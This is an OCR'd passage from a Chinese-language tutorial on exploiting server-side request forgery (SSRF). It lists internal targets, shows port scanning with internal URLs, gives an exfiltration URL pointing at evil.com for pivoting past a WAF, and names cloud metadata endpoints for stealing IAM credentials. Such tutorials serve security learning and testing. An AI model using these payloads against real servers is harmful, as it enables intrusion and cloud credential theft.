 **常见目标：**

- **内部API服务**：一些API可能没有严格的权限控制，可以通过SSRF直接访问。
- **Kubernetes API**：如果应用托管在Kubernetes上，内部的Kubernetes API常使用HTTP协议，攻击者可尝试请求例如`http://localhost:8001/api/v1/nodes`。
- **Redis管理面板、Jenkins等**：这些面板通常不会暴露在公网，但可能对内网开放。

### 2. **端口扫描与服务枚举**

通过SSRF可用于扫描服务器内外部的端口和服务，即使被限制为HTTP协议，仍可利用服务器发出的HTTP请求来验证某些端口是否打开。

**利用步骤：**

- 发起SSRF请求不同的IP地址和端口组合，观察响应时间和返回的状态码。例如：
    
    bash
    
    复制代码
    
    `http://127.0.0.1:22 http://10.0.0.1:3306 http://172.16.0.1:5000`
    
    - 如果返回特定的状态码如200，说明该端口运行了HTTP服务。
    - 若响应时间过长或返回连接超时，则说明端口关闭或无响应。

**高级技巧：**

- 通过观察HTTP响应状态码（如200、301、403等）或通过判断响应时间长短，推测内部服务的类型和运行情况。

### 3. **绕过Web应用防火墙（WAF）**

某些Web应用防火墙（WAF）会限制对外发出的请求，但可能没有充分过滤SSRF请求。通过SSRF可以利用内部的网络权限，进行内部跳板攻击。

**利用步骤：**

- 如果服务器能发出HTTP请求，利用SSRF将流量通过内网或代理（如防火墙后面的服务器），然后进行更大范围的攻击，例如向外部恶意服务器发送数据包。
- 通过请求外部恶意的URL，获取特定内部信息：
    
    bash
    
    复制代码
    
    `http://evil.com/capture?data=internal`
    
    如果服务器能够直接访问外部网络，这样的请求可以在攻击者控制的服务器上获取内部数据。

### 4. **获取云服务的元数据**

在云平台上（如AWS、Google Cloud、Azure），云实例的元数据通常通过HTTP服务访问。通过SSRF，可以尝试访问这些元数据API，进而获取敏感信息如IAM凭据、API密钥等。

**利用步骤：**

- 通过SSRF请求云实例的元数据地址。例如：
    
    bash
    
    复制代码
    
    `http://169.254.169.254/latest/meta-data/  # AWS EC2 http://metadata.google.internal/computeMetadata/v1/  # Google Cloud`
    
- 访问特定路径，获取实例的详细信息，如：
    